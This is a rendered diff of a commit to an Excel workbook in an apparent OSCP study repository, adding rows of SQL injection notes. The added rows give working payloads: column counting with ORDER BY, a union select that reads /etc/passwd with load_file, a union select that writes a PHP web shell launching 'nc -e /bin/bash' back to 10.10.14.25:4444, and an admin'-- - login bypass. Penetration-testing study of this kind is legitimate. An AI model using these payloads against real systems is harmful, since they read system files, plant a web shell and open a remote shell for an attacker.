

Before and after one commit to supriti01/oscp, an Excel workbook: Book1.xlsx, sheet SQL Injections, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Book1.xlsx (sheet SQL Injections)
+++ b/Book1.xlsx (sheet SQL Injections)
+sheet tab: DC Enumeration
+row 12: (empty)
+row 13: (empty)
+row 14: In mysql, if Id is present, check the number of columns using order by
+row 15: (empty)
+row 16: then find the column where you can see the /etc/passwd , in below case, the column number where /etc/passwd was visible is 7
+row 17: 1+union+all+select+1,2,3,4,5,6,load_file('/etc/passwd')+from+mysql.user--
+row 18: 1+union+all+select+1,2,3,4,5,6,'<?php passthru("nc -e /bin/bash 10.10.14.25 4444");'+into+outfile+"/var/www/html/exp4.php"--
+row 19: (empty)
+row 20: https://www.exploit-db.com/papers/14635
+row 21: (empty)
+row 22: if username is known, then do this-
+row 23: username= admin'-- -
```
Also changed, not shown: sheet HTB Boxes, sheet Methodology, sheet Linux Priv escalation, sheet Password brureforce technique, sheet File transfer methods, other sheet tabs.
